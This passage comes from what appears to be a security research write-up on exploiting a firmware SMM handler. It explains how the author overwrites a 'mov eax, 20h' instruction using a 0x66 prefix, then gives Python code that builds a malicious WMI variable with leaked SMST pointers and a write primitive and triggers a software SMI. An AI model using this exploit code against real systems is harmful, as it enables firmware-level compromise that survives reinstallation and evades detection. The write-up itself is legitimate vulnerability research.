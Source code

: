 I show the previous function prologue because those last two bytes are going to get replaced when I disable the writing of the wide-byte space. Good news is the function (`sub_4AA32368`) never gets called, so it doesn't impact anything important.

Two changes need to be made to stop 0x20 from ruining my hopes and dreams of SMM exploitation:

Line 1 at the top of the function: 

```
B8 20 00 00 00   mov     eax, 20h ; ' '
```

and line 3: 

```
66 89 02         mov     [rdx], ax
```

These two are responsible for moving 0x20 into RAX and then writing it as a wide byte.

It would be great if I could write NOPs over the two and be done with it, but no matter what, `mov     [rdx], ax` will always ensure the last byte either 0x00 or 0xFF, which will lead to the instruction looking something like:

```
90 90 90 90 FF  ; invalid instruction, crash imminent
```

Is there another NOP-like byte I can use ? 

Yes, actually. Meet my new friend `0x66`: the operand-size override prefix.

<div class="example">
</div>
```
def gen_bad_var_data(self, wmi_memaddr=None, write_primitive=None):
  wmipayload = self.WMIPayload()

  wmipayload.gSMRT = self.SMRT # needs to be hardcoded
  wmipayload.gSMST_0 = self.SMST # this pointer is leaked
  wmipayload.gSMST_1 = self.SMST # same
  wmipayload.InSmram = 1

  if wmi_memaddr is not None:
    wmipayload.WmiACPIMemAddress = wmi_memaddr - 0x79
    wmipayload.WmiACPIMemAddressCpy = wmi_memaddr - 0x79

  if write_primitive is not None:
    wmipayload.Primitive = (ctypes.c_byte * 8)(*write_primitive)

  return wmipayload

def disable_0x20(self):
  primitive = b"\x66\x00\x00\x00\x00\x00\x00"

  data = self.gen_bad_var_data(
      wmi_memaddr=self.MovEax20Address, # mov     eax, 20h ; ' '
      write_primitive=primitive,
  )

  self.set_wmi_var(data)

  self.interupts.send_SW_SMI(0x0, 0xE3, 0, 0, 0, 0, 0, 0, 0)
```
The original:
